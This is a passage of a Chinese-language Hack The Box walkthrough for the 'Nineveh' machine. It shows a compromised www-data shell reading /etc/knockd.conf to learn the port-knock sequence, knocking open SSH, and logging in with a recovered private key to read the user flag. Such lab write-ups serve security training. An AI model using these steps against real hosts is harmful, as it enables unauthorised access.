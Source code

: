 

但是22端口开了，不对外开放，这时候要使用 knock ，具体要寻找到相关敲门的信息

```bash
www-data@nineveh:/home/amrois/.ssh$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

敲门

```bash
└─# knock 10.10.10.43 571  290  911                                                                                                                         127 ⨯
                                                                                                                                                                  
┌──(root💀kali)-[~/Nineveh]
└─# nmap -p22 -sS 10.10.10.43                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 22:55 EDT
Nmap scan report for 10.10.10.43 (10.10.10.43)
Host is up (0.55s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```



```bash
└─# chmod 0400 id_rsa
└─# ssh -i id_rsa amrois@10.10.10.43
```

```bash
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$ cd
amrois@nineveh:~$ ls
user.txt
amrois@nineveh:~$ cat user.txt
cbf0ee93f9148f6a4b083258cbc26750
```
